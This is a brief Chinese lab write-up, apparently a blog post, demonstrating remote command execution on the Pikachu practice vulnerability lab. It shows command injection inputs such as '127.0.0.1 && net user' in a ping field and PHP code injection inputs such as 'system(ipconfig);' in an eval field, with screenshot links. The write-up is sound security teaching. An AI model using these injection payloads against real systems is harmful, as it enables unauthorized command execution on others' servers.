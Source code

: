 ```yaml
---
layout: post
title:  RCE(remote command execute)
date: 2021-06-28 14:45 +0900
category: other-exp
---
```

<!-- TOC -->

- [0x0 命令注入(pikachu-labs-exec "ping")](#0x0-命令注入pikachu-labs-exec-ping)
- [0x1 代码注入(pikachu-labs-exec "eval")](#0x1-代码注入pikachu-labs-exec-eval)

<!-- /TOC -->
## 0x0 命令注入(pikachu-labs-exec "ping")

`正常输入IP地址127.0.0.1`
![](/images/20210628-1.png)
`输入IP地址127.0.0.1 && net user`
![](/images/20210628-2.png)
`127.0.0.1 && ipconfig`
![](/images/20210628-3.png)

## 0x1 代码注入(pikachu-labs-exec "eval")

`phpinfo();`
![](/images/20210628-4.png)
`echo(111111);`
![](/images/20210628-5.png)
`system(ipconfig);`
![](/images/20210628-6.png)